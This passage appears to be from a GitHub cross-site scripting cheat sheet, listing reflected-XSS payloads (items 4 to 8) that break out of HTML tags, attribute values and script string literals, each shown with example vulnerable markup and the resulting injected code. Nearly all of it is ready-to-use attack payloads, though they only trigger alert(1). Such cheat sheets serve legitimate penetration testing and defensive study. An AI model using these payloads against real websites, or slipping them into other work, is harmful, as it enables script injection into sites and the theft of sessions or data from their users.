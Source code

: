 4. Add </tag> when the input inside or between opening/closing tags, tag can be ```<a>,<title>,<script>``` and any other HTML tags
    
```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* Example source code
```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

* After input the payload
```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. Use when input inside an attribute’s value of an HTML tag but > is filtered
```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

* Example source code
```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* After input the payload
```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```
6. Use </script> when input inside ```<script>``` tags
```html
</script><script>alert(1)</script>
```
* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```
* After input the payload
```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```
## **XSS Cheat Sheet (Advanced)**
7. Use when input lands in a script block, inside a string delimited value.
```html
'-alert(1)-'
'/alert(1)//
```
* Example source code
```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```
* After input the payload
```html
<script>
    var sitekey = ''-alert(1)-'';
</script>
```
8. Same like Number 7. But inside a string delimited value but quotes are escaped by a backslash.
```html
\'alert(1)//
```